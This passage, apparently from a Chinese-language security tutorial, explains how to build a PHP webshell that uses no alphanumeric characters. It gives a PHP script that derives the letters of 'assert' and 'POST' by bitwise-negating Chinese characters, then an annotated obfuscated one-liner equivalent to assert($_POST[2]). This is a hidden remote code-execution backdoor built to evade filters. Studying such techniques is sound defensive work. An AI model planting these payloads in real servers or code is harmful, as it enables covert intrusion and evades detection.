 
#### OUT:

```
e5928c
%E5%92%8C
```

可以发现utf-8编码与与Url编码的关系，了解了这些后，针对于怎么得到payload写了如下程序：


#### IN:

```php
<?php
//获取payload的unicode编码
function get_unicode(){
    $payload = array('a','s','s','e','r','t','P','O','S','T');
    $payloadTounicode = array();
    foreach ($payload as $p){
        $payloadTounicode[$p] = base_convert(ord($p), 10, 16);
    }
    return $payloadTounicode;
}
//在输入的汉字中找到囊括payload的汉字
function find_unicode($fuzz, $payloadTounicode){
    $found = array();
    foreach ($payloadTounicode as $p){
        echo $p;
        foreach($fuzz as $f){
            if((base_convert(ord(~($f{1})), 10, 16) == $p) || (base_convert(ord(~($f{2})), 10, 16) == $p)){
                $found[] = $f;
                break;
            }
        }
        echo '
';
    }
    return $found;
}
$fuzz = array('和','看','的','加','徐','不','瞰','始','俯','站','次','半');
var_dump(find_unicode($fuzz,get_unicode()));
```


#### OUT:
`array(9) { [0]=> string(3) "瞰" [1]=> string(3) "和" [2]=> string(3) "的" [3]=> string(3) "不" [4]=> string(3)``"看" [5]=> string(3) "俯" [6]=> string(3) "瞰" [7]=> string(3) "次" [8]=> string(3) "站" }`找到需要是要的汉字，开始后构造payload(payload在开头已经给出了，简单说一下自己的理解)：

```php
<?php
$__=('>'>'<')+('>'>'<');
// 这里是true+true=2
$_=$__/$__;
// 这里2/2=1
$___="瞰";$____.=~($___{$_});
// 获得'a'字母
$_=$$_____;
// $_____为连接而成的'_POST'，$_为$_ POST
$____($_[$__]);
// 最终为assert($_POST[2])
```


[0]: http://51.158.75.42:8084/
[1]: http://www.php.net/manual)%EF%BC%8C%E8%BF%99%E4%B8%AA%E7%9C%9F%E7%9A%84%E6%98%AF%E5%A5%BD%E4%B8%9C%E8%A5%BF%E3%80%82%E4%BB%A5%E4%B8%8B%E6%98%AF%E5%AF%B9%E8%BF%99%E4%B8%80%E5%9D%97%E7%9A%84%E6%8E%A2%E7%A9%B6%EF%BC%9A
[2]: https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html